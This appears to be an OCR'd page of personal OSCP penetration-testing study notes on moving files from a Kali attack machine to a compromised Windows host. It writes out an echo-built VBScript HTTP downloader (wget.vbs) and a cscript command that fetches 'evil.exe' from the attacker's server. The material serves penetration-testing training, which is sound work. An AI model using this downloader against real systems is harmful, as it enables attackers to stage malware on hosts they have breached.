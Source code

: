  /ftphome = in kali machine we already setupped.
 
 5.16.2.2 Windows Downloads Using Scripting Languages
 
•  downloading from kali to windows machine
 
•  this is work as a simple http downloader wget.vbs.txt when pasted
in powershell or cmd.

echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wge
t.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.
vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs


• We can run this (with cscript) to download files from our Kali machine:

C:\Users\Offsec> cscript wget.vbs http://10.11.0.4/evil.exe evil.exe
# - Executing the VBScript HTTP downloader script
# - http://10.11.0.4/evil.exe = getting path  #evil.exe = saving format



• copied to kali web root file for downloading

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/59.jpg)

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/60.jpg)
